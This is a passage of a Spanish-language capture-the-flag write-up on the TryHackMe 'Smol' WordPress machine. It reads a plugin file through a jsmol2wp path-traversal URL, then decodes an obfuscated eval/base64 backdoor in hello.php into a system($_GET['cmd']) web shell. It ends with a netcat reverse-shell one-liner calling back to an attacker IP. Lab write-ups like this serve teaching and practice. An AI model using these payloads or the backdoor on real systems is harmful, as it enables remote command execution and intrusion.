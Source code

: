 Haciendo uso de la anterior vulnerabilidad podemos extraer el contenido del plugin `http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php`.

```php
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

Si la decodificamos obtenemos el siguiente código:

```php
if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"])
```

Los nombres de las variables están escritas con escapes octales y hexadecimales, que son formas de codificar caracteres en PHP.

- \143 es un valor octal.

- \x6d es un valor hexadecimal.

```php
$_GET["\143\155\x64"] = $_GET["cmd"]

if (isset($_GET["cmd"])) {
    system($_GET["cmd"]);
}
```

Este código permite ejecutar comandos del sistema directamente desde la URL.

## Explotando el plugin Hello Dolly

Lo normal sería pensar que podemos llamar a esta función de cmd desde el propio plugin y ejecutar comandos del sistema como `http://www.smol.thm/wp-content/plugins/hello.php?cmd=pid`, pero no lo permite.

Si nos fijamos en el dashboard del administrador Worpress observamos que el plugin está cargado en el backend.

![alt text](/assets/img/writeups/tryhackme/smol/image-5.png)

Por lo tanto podemos intentar llamar a la función de cmd desde aquí.

El comando que utilizarmos es `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.66.202 4444 >/tmp/f` y lo debemos codificar en URL.
